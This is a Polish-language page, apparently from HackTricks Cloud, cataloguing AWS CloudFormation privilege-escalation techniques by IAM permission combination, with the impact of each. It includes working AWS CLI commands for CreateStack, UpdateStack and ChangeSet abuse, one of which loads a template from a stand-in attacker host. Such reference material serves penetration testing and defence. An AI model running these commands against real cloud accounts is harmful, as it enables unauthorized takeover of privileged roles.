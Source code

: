 # AWS - Cloudformation Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## cloudformation

Aby uzyskać więcej informacji na temat cloudformation, sprawdź:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Napastnik z tymi uprawnieniami **może eskalować uprawnienia** poprzez stworzenie **stosu CloudFormation** z niestandardowym szablonem, hostowanym na ich serwerze, aby **wykonywać działania w ramach uprawnień określonej roli:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na poniższej stronie masz **przykład eksploatacji** z dodatkowym uprawnieniem **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potencjalny wpływ:** Privesc do roli serwisu cloudformation określonej.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

W tym przypadku możesz **nadużyć istniejącego stosu cloudformation**, aby go zaktualizować i eskalować uprawnienia, jak w poprzednim scenariuszu:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **przyznania sobie uprawnienia `UpdateStack`** nad stosem i przeprowadzenia ataku.

**Potencjalny wpływ:** Privesc do roli usługi cloudformation określonej.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Jeśli masz to uprawnienie, ale **brak `iam:PassRole`**, nadal możesz **aktualizować stosy** używane i nadużywać **ról IAM, które już mają przypisane**. Sprawdź poprzednią sekcję w celu uzyskania przykładu wykorzystania (po prostu nie wskazuj żadnej roli w aktualizacji).

Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **przyznania sobie uprawnienia `UpdateStack`** nad stosem i przeprowadzenia ataku.

**Potencjalny wpływ:** Privesc do roli usługi cloudformation już przypisanej.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Atakujący z uprawnieniami do **przekazywania roli oraz tworzenia i wykonywania ChangeSet** może **tworzyć/aktualizować nowy stos cloudformation, nadużywając ról usługi cloudformation** tak jak w przypadku CreateStack lub UpdateStack.

Następujące wykorzystanie jest **wariacją**[ **CreateStack**](./#iam-passrole-cloudformation-createstack) używającą **uprawnień ChangeSet** do stworzenia stosu.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **nadania sobie uprawnień `ChangeSet`** nad stosem i przeprowadzenia ataku.

**Potencjalny wpływ:** Privesc do ról serwisowych cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

To jest jak poprzednia metoda, ale bez przekazywania **ról IAM**, więc możesz po prostu **wykorzystać już dołączone**, wystarczy zmodyfikować parametr:
```
--change-set-type UPDATE
```
**Potencjalny wpływ:** Privesc do roli usługi cloudformation, która jest już dołączona.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Napastnik mógłby nadużyć tych uprawnień, aby tworzyć/aktualizować StackSets w celu nadużycia dowolnych ról cloudformation.

**Potencjalny wpływ:** Privesc do ról usługi cloudformation.

### `cloudformation:UpdateStackSet`

Napastnik mógłby nadużyć tego uprawnienia bez uprawnienia passRole, aby aktualizować StackSets w celu nadużycia dołączonych ról cloudformation.

**Potencjalny wpływ:** Privesc do dołączonych ról cloudformation.

## Odniesienia

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
